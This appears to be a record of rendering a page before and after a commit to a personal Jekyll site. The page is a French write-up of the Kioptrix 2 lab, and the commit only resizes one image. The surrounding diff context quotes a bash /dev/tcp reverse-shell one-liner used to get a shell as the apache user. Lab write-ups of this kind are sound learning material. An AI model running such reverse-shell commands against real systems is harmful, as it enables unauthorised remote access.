

Before and after one commit to rajoul/rajoul.github.io, a Jekyll site: the page built from my_write_up/Kioptrix_2.md, in a window 1280 px wide. Shown: the part 4519-6400 px from the top of the page at 77% size, without its empty margins (108-1170 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update Kioptrix_2.md

```diff
--- a/my_write_up/Kioptrix_2.md
+++ b/my_write_up/Kioptrix_2.md
@@ -64,7 +64,7 @@
 </p>
 je met en mode écoute pour un reverse shell,et rien n'est passé.Donc la commande netcat peut etre n'est pas installé,donc il faut essayer avec une méthode.**bash -i >& /dev/tcp/10.0.4.4/1234 0>&1** est une commande qui permet de nous envoyer un reverse shell.
 <p align="center">
-  <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/get_reverse_shell_11.png" width="860" height="170">
+  <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/get_reverse_shell_11.png" width="860" height="220">
 </p>
 comme avec l'utilitaire Ping, nous sommes connectés au compte apache,mais on n'a pas le droit de se connecter au shell.
 <p align="center">
```
